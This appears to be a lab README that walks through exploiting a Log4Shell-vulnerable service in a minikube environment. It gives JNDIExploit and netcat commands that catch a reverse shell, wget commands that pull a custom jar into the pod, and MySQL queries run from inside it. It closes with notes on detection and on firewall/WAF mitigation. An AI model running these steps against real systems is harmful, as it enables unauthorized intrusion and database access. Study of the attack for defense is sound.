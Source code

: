 
Once you've done the setup in the readme_original

## how to exploit 
launch this command with the file present in the exploit/ folder
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i host.minikube.internal -p 8080
```

then launch this command 

```
ruby ./script/exploit.rb & nc -lv 3000
```

you should get a shell on the machine

## how to execute mysql command


we need mysql client. but there is no internet on the pod

launch a php server next to the file `mysql_utlis.jar` with the command.   ( This file is in exploit/ ) 
I build this jar file. the source code is next to it

```
php -S 0.0.0.0:8000
```

then from the server where you have a reverse shell download the tool I build in java with `wget`
I choosed this way for doing mysql request because the VM doesn't have internet and it's impossible to install some packet or really difficult 
So I built a little java binary that can make mysql request and display it from a tutorial I found on internet because I'm not a java developer at all. That was my first java program.  

```
wget host.minikube.internal:8000/mysql_utils.jar
```

inside the pod you can make query by using the tool this way:

``` 
java -jar mysql_utlis.jar db_name mysql_request 
```

To prove I did some sql request let's do some capture

```
java -jar mysql_utils.jar mysql "show databases;"
```

![screen_capture](images/screen_capture_mysql_request.png)

```
java -jar mysql_utils.jar sys "show columns from user_summary;"
```

![screen_capture](images/screen_capture_mysql01.png)

# Question

## How could we detect this exploit
The answer may vary because of what the server have to do on a regulary basis. But the simpliest solution is probably this: 
The exploit involve that the server, which use the Log4j library vulnerable, make some ldap / rmi / http request. If you log the network somewhere you should be able to see that request from the server. So you could say that every time your server make that kind of request himself to an IP you don't know as an ldap rmi or http server you own. This is the things where you can detect the exploit. you can't really hide or make this exploit works other way. 

An organisation should always log his network and check for scetchy behaviour on it. Snort is a good tool to do this. 
If you know that you own a log4j component vulnerable that you won't fix, you should start to do this.

## How to prevent without fix

To prevent without fix it. You could add a firewall rules or a WAF rules to block ldap request to others servers you don't own. You may also block JNDI request to servers you don't own. To list your own LDAP server which may legitimately receive request from log4shell vulnerable asset should be easy. If it's not, you may need to redisign your network as it's dangerous to run a network like that. You could also remove the access to internet for the vulnerable tool if you don't need it.











